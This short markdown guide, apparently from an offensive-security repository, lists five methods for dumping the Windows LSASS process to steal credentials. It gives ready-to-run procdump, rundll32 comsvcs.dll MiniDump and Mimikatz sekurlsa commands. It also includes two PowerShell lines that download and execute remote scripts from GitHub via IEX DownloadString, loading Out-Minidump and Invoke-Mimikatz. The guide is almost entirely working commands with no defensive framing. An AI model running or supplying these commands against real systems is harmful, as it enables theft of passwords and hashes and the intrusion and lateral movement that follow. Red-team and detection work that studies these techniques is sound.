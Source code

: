 # Methods to Dump LSASS
Craft a comprehensive guide detailing various methods for dumping the LSASS.<br>
I think This will be a valuable one and will make people stay updated on new techniques.
## 1. Procdump:
Procdump is a part of Microsoft Sysinternals and a command-line<br>utility programs for producing dumps of any running process<br>
We can leverage it and use it fo DUMP lsass process by the following:<br>
<code>procdump.exe -ma lsass.exe C:\path\lsass.dmp</code>

## 2. Mimikatz:
Mimikatz can both dump the LSASS process and read from an LSASS dump:<br>
<code>privilege::debug = Debugging Mode
sekurlsa::logonPasswords = Dump passwords
</code>

* To Read from an LSASS dump:<br>
<code>sekurlsa::minidump C:\path\lsass.dmp
sekurlsa::logonpasswords</code>

## 3. Rundll32
This is a native Windows utility method which can we can use:<br>
<code>rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <LSASS_Process_ID> C:\path</code><br>
for getting lsass process ID, you can RUN "Get-Process lsass" on powershell.
* User can also done this by making a PS script containing the following:<br>
<code>$lsass = Get-Process lsass
$dumpPath = "C:\Users\Adwin2\Desktop\lsass.dmp"
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $($lsass.Id) $dumpPath full</code><br><br>
<b>Note</b>: Change $dumpPath

## 4. PowerSploit's Out-Minidump:
Ensure the Out-Minidump function is loaded in your PowerShell session<br>
<code>"IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1')"
Get-Process lsass | Out-Minidump -DumpFilePath C:\Path\To\Dump
</code>

##  5. Using Invoke-Mimikatz from the GitHub Repository:
Download & Import the Script:
First, you need to get the Invoke-Mimikatz.ps1 script from the GitHub repository.
If you're working directly on the machine:
<code>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/g4uss47/InvokeMimikatz/master/Invoke-Mimikatz.ps1')</code><br>

Invoke Mimikatz to Dump LSASS:<br>
Once the module is imported, you can run Invoke-Mimikatz to dump the LSASS</br>

<code>Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords"'</code><br>
* You can also using minidump module to select where to read:<br>
<code>Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::minidump C:\Path\To\Load\Lsass"'</code>
